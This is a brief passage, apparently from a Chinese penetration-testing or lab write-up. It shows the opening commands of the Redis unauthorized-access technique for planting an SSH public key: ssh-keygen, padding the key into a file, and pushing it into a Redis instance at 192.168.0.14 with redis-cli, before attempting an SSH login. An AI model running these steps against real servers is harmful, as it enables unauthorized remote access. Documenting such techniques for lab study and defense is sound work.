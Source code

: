 ![image-20250318132706313](./assets/image-20250318132706313.png)

- 看不到任何信息

*****

### 尝试redis未授权访问写公钥(1台)

- 在本地生成公钥

```cmd
ssh-keygen -t rsa
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 192.168.0.14 -x set xxx
```

- 尝试连接ssh

